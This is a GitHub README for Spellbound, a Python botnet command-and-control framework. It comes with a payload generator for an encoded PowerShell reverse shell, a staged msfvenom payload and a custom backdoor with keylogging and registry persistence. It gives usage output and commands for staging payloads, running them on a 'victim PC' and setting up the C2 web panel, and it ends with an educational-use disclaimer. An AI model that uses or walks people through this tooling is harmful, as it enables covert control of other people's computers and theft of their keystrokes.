 # Spellbound

A C2 framework for all your God Complex. A fully functional and integrated Botnet for remote command execution through user friendly UI.<br>

Spellbound is a C2 (Command and Control) framework meant for creating a botnet. Spellbound is created in python and includes a payload generator (spellgen) to send to your target. Spellbound is capable of handling around 65000 bots at a time (depending on the machine).

![1670504818823](https://user-images.githubusercontent.com/88616338/221417940-74bbffa4-9a20-49d2-8f93-36de576d167e.jpg)

# Components

## Spellgen
Spellgen is a payload generator which offers 3 different kinds of payloads:
- Base64 encoded powershell command
- Staged MSFvenom payload
- Spellshell (Custom payload with post-exploitation modules)

To get the help menu for spellgen, you can use the command ```python spellgen.py```
```
Usage: spellgen.py <payload> <IP> <PORT>

        payload: spellshell
                Fully specialized reverse shell with keylogging and persistance capabilities
                Command: whataretheywriting- start writing keystrokes to a file
                Command: persist- add your reverse shell to the startup registry
                Command: spawn- spawn another instance of the reverse shell
                Arguments: <C2C IP> <C2C Port>

        payload: powershell
                Base64 encoded fileless powershell reverse shell
                Arguments: <C2C IP> <C2C Port>

        payload: msf
                Standard msfvenom generated reverse shell staged payload
                Arguments: <STAGER IP> <STAGER Port>
                Dependencies: sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64
```

Generating a payload with spellgen is an easy task where you just have to specify the payload type, C2 IP and port.

#### Powershell Payload
The powershell payload is a simple reverse shell encoded in base64 just as an obfuscation tactic. This payload can be run on the victim PC by executing it through powershell or cmd.

#### MSFvenom Payload
This payload is a bit tricky as it is a staged payload. The stager server can be found in spellgen by the name ```spellstager.py```. First, the stager needs to be run with the following command:
```python spellstager.py <IP> <STAGER_PORT> <C2_PORT>```
Then, the payload needs to be generated with the following command:
```python spellgen.py msf <STAGER IP> <STAGER PORT>```
The payload can be executed on the victim PC, which will connect to the stager and share a key, through Diffie Hellman key exchange, which will encrypt the actual reverse shell paylod during transit.

#### Spellshell
Spellshell is a self-developed backdoor with some in-built post-exploitation modules:
- pesistance through the ```persist``` command
- keylogging through the ```whataretheywriting``` command
- nested backdoor creation through the ```spawn``` command

## Spellbound
Spellbound is the actual C2 server, to which all bots connect. This is devloped in python and provides a beautiful web interface with the help of the Flask micro-framework. 

#### Setting it up
- ```git clone https://github.com/dingavinga1/spellbound/```
- ```cd spellbound```
- ```pip install -r requirements.txt```
- ```python app.py```
<br/><br/>
After the above steps, open up localhost in your browser, provide the IP for your listening interface and the port to listen on and your C2 will be ready to accept dem bots! 

# Collaborators 
- [Abdullah Irfan](https://github.com/dingavinga1/)
- [Aisha Irfan](https://github.com/aishairfan/)

# Disclaimer
<b>This program is meant only for educational purposes and red-teaming practices. The authors will not be responsible for any misuse of this program. This program is free for personal and commercial use, provided that due credit is given to this repository and the authors.</b>
